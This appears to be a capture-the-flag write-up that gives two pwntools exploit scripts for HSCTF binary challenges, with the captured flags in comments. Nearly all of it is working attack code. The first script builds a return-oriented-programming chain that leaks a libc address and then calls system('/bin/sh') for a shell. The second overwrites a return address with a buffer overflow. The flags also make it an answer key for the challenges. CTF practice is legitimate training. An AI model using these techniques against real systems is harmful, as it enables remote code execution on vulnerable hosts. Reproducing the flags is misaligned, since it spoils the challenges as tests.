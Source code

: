```python
# lib64
# storytime
# $ cat flag
# hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
#

from pwn import *

p = remote('pwn.hsctf.com', 3333)

p.recvuntil('story: \n')

# The first stage is leaking the address of write in libc.
payload = 'A' * 56
payload += p64(0x00400703)  # pop rdi; ret;
payload += p64(0x1)         # rdi = 0x1
payload += p64(0x00400701)  # pop rsi; pop r15; ret;
payload += p64(0x00601018)  # rsi = write@got.plt
payload += p64(0x00000000)  # r15 = 0x0
payload += p64(0x4004a0)    # call write(rdi, rsi, rdx)
payload += p64(0x40062e)    # main()

p.sendline(payload)

write = u64(p.recv(8))
log.info('write @ {}'.format(hex(write)))

p.recvuntil('story: \n')

payload = 'A' * 56
payload += p64(0x00400703)      # pop rdi; ret;
payload += p64(write + 0x95aa7) # rsi = &"/bin/sh"
payload += p64(write - 0xb1f20) # system(rsi)

p.sendline(payload)
p.interactive()
p.close()
```

## return-to-sender

```python
#!/usr/bin/python2

from pwn import *

#
# $ python get.py
# [+] Opening connection to pwn.hsctf.com on port 1234: Done
# [*] Switching to interactive mode
# Where are you sending your mail to today? Alright, to AAAAAAAAAAAAAAAABBBB\xb6\x91\x0 it goes!
# $ cat flag
# hsctf{fedex_dont_fail_me_now}
# $

#p = process('./return-to-sender')
p = remote('pwn.hsctf.com', 1234)

p.sendline('A' * 16 + 'B' * 4 + p32(0x080491b6))
p.interactive()
p.close()
```
